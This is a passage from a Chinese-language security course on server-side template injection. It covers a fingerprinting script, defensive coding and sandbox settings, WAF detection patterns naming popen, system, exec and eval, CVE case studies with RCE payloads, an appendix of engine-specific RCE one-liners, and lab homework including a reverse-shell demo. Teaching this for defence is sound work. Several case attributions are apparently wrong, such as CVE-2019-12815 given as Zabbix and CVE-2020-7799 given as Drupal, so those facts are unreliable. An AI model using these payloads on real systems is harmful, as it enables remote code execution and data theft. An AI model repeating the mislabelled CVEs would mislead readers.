    'Twig':     '{{7*\'7\'}}',
    'Freemarker': '${7*7}',
    'ERB':      '<%= 7*7 %>',
    'Velocity': '#set($x=7*7)$x',
}

for engine, p in PAYLOADS.items():
    r = requests.get(TARGET.format(p))
    if '49' in r.text or '7777777' in r.text:
        print(f'[+] 可能是 {engine}: {p}')
```

## 4.3 防御方案
### 4.3.1 三层防御
```plain
┌────────────────────────────────────────┐
│ 1. 永远不要把用户输入拼到模板字符串中  │
│ 2. 使用参数化渲染                      │
│ 3. 启用沙箱环境 + 限制可访问的属性     │
└────────────────────────────────────────┘
```

### 4.3.2 各语言正确写法
**Python Jinja2**：

```python
# 漏洞
template = 'Hello ' + name
render_template_string(template)

# 正确
render_template_string('Hello {{ name }}', name=name)
render_template('hello.html', name=name)
```

**Twig**：

```php
// 漏洞
$twig->createTemplate("Hello " . $name)->render([]);

// 正确
$twig->render('hello.html', ['name' => $name]);
```

**Freemarker**：

```java
// 漏洞
new Template("x", "Hello " + name, config).process(data, out);

// 正确
Template t = config.getTemplate("hello.html");
t.process(Collections.singletonMap("name", name), out);
```

**ERB**：

```ruby
# 漏洞
ERB.new("Hello " + name).result(binding)

# 正确
ERB.new("Hello <%= name %>").result(binding)
```

### 4.3.3 沙箱模式
**Jinja2 沙箱**：

```python
from jinja2.sandbox import SandboxedEnvironment
env = SandboxedEnvironment()
env.parsed = ...
# 禁止访问 __ 下划线属性、import 等
```

**Twig 沙箱**：

```php
use Twig\Extension\SandboxExtension;
use Twig\Sandbox\SecurityPolicy;

$policy = new SecurityPolicy(
    ['if', 'for'],          // 允许的 tags
    ['upper', 'lower'],     // 允许的 filters
    [['length']],           // 允许的方法
    [],                     // 允许的属性
    []                      // 允许的函数
);
$twig->addExtension(new SandboxExtension($policy, true));
```

**Freemarker 安全**：

```java
config.setAPIBuiltinEnabled(false);
config.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
```

### 4.3.4 输入校验
如果业务必须接受模板语法（如邮件模板编辑器）：

+ **白名单标签**：只允许 ``、``、`{{ var }}`，禁止函数调用
+ **AST 检查**：解析模板 AST，拒绝包含 `__class__`、`import`、`eval` 等节点的模板
+ **专用沙箱**：用 `SandboxedEnvironment`

### 4.3.5 输出编码
模板引擎一般默认 HTML 转义，避免 XSS：

+ Jinja2：`Environment(autoescape=True)`
+ Twig：默认 HTML 转义
+ Django：默认转义

但 SSTI 不依赖 XSS，所以输出编码不能替代"不拼接用户输入"。

### 4.3.6 WAF 规则
常见 SSTI payload 特征：

```plain
{{.*}}

<%=.*%>
\$\{.*\}
__class__|__mro__|__subclasses__|__globals__
popen|system|exec|eval
freemarker.template.utility.Execute
```

但 SSTI payload 可以编码绕过，WAF 只能挡掉低级攻击。

## 4.4 真实案例
### 4.4.1 Equifax 数据泄露（2017）—— 不是 SSTI，但作为对照
Apache Struts2 OGNL 表达式注入（CVE-2017-5638），与 SSTI 同源 —— **OGNL 也是表达式语言**。

```plain
漏洞：OGNL 表达式被 Content-Type 头解析
利用：Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear())...
}
后果：1.43 亿美国公民信用数据泄露
```

OGNL 注入、SpEL 注入、EL 注入都属于**表达式语言注入（EL Injection）**，本质和 SSTI 一样。

### 4.4.2 CVE-2019-3396 Atlassian Confluence（Freemarker）
```plain
漏洞：富文本编辑器的模板渲染接口允许 SSTI
利用：通过 _template 参数注入 Freemarker 模板
payload：
{
  "contentId": "1",
  "macro": {"name": "widget", "body": "",
    "params": {"url": "x", "_template": "../web.xml"}
  }
}
RCE：
_template: "freemarker.template.utility.Execute"?new()("id")
后果：任意 RCE，影响大量 Confluence 用户
```

### 4.4.3 CVE-2014-4672 Pivotal Spring (Java)
```plain
漏洞：Spring View Manipulation，Thymeleaf / Freemarker SSTI
利用：URL path 直接进入模板名
http://target/__${T(java.lang.Runtime).getRuntime().exec('id')}__
后果：RCE
```

### 4.4.4 CVE-2019-12815 Zabbix 服务器（PHP Twig）
```plain
漏洞：Zabbix dashboard 自定义 widget SSTI
payload：{{ map.lexical_sort("id", "system") }}
后果：RCE
```

### 4.4.5 CVE-2020-7964 Liferay Portal（FreeMarker）
```plain
漏洞：API 接受 template 参数直接渲染
利用：
POST /api/jsonws/invoke
cmd = {"$resource=freemarker.template.utility.Execute": "", "cmd": "id"}
后果：未授权 RCE
```

### 4.4.6 CVE-2022-22963 Spring Cloud Function SpEL
```plain
漏洞：spring.cloud.function.routing-expression 接受 SpEL 表达式
payload：
spring.cloud.function.routing-expression:
  T(java.lang.Runtime).getRuntime().exec("bash -c ...")
后果：RCE
```

### 4.4.7 CVE-2020-7799 Drupal Twig SSTI
```plain
漏洞：Drupal 主题渲染 Twig 沙箱不严
利用：自定义主题文件 SSTI
后果：RCE
```

### 4.4.8 HackerOne 报告精选
```plain
#453741 - Shopify Jinja2 SSTI（信息泄露）
#399671 - Algolia Jinja2 SSTI
#7401   - Mozilla Django Template Injection
```

### 4.4.9 SSTI 与 EL 注入家族
```plain
┌────────────────────────────────────────┐
│ 表达式语言注入家族                      │
│                                        │
│ SSTI (模板引擎)                        │
│   - Jinja2 / Twig / Smarty / ...       │
│ EL Injection (Java)                    │
│   - OGNL (Struts2)                     │
│   - SpEL (Spring)                      │
│   - EL (JSP)                           │
│   - MVEL                              │
│ Script Engine Injection                │
│   - Nashorn (Java JS)                  │
│   - Groovy                            │
│   - Velocity                          │
└────────────────────────────────────────┘
```

Java 体系的"表达式语言注入"实际是 SSTI 的变种，思路完全一样。

---

## 附录 A 必背 30 条
```plain
1. SSTI = 用户输入进入模板字符串被当表达式执行
2. SSTI 在服务端执行，危害远超 XSS
3. 模板拼接是漏洞根源，参数化渲染是修复方案
4. 检测通用 payload：{{7*7}}
5. Jinja2 vs Twig 区分：{{7*'7'}} = 7777777 是 Jinja2
6. Flask 模板内置对象：config request g session lipsum cycler url_for self
7. config 包含 SECRET_KEY，泄露后可伪造 session
8. MRO 链：''.class.mro[1].subclasses()
9. 最短 RCE 链：lipsum.globals.os.popen('id').read()
10. attr 过滤器可绕过 . 号过滤
11. 字符串拼接 'o'+'s' 可绕过关键字过滤
12. Unicode \uff5f 等价于下划线 _
13. request.args.x 可绕过引号过滤
14. Jinja2 沙箱：SandboxedEnvironment
15. Twig RCE：['id'] | filter('system')
16. Smarty RCE：{system('id')}
17. Freemarker RCE：${"freemarker.template.utility.Execute"?new()("id")}
18. Velocity RCE：$class.inspect("java.lang.Runtime").type.getRuntime().exec
19. ERB RCE：<%= `id` %>
20. Node Pug RCE：global.process.mainModule.require('child_process')
21. tplmap 是 SSTI 自动化工具
22. Burp SSTI 插件可自动检测
23. PayloadsAllTheThings 有完整 SSTI 字典
24. Java 系 EL 注入：OGNL/SpEL/EL/MVEL
25. Struts2 OGNL 历史 CVE-2017-5638 → Equifax 1.43 亿数据泄露
26. Confluence SSTI CVE-2019-3396
27. Liferay SSTI CVE-2020-7964
28. Spring SpEL CVE-2022-22963
29. WAF 难挡 SSTI（payload 合法）
30. 防御核心：永远不要把用户输入拼到模板字符串里
```

## 附录 B 课后作业
### 必做
1. **完成 5 关靶场**（4.1.2），每关提交：
    - 检测 payload
    - 指纹结论
    - RCE payload
    - 反弹 shell 演示
2. **修复 5 关**：把每关改成安全写法，重新验证漏洞消失。
3. **多引擎实验**：搭建 Twig / Freemarker / ERB 至少一个最小靶场，完成 SSTI → RCE 全链路。

### 选做
4. 阅读 PayloadsAllTheThings SSTI 章节，整理 Jinja2 5 种 RCE 链对比表。
5. 阅读 James Kettle 的《Server-Side Template Injection》原文（PortSwigger Research），理解沙箱逃逸方法论。
6. 研究 Java 表达式语言（OGNL / SpEL / EL），写一篇对比 SSTI 的笔记。
7. 在 HackTheBox 或 VulnHub 找一台 SSTI 题目（如 Market、Lernaean、Banzai）通关。

### 进阶
8. 研究模板引擎沙箱的逃逸历史：Jinja2 sandbox bypass 历年 CVE 列表。
9. 研究 SSTI 在 Serverless / 云原生场景下的影响（如 AWS Lambda 模板渲染）。
10. 调研邮件模板编辑器（SendGrid / Mailchimp）如何安全地让用户写模板。

## 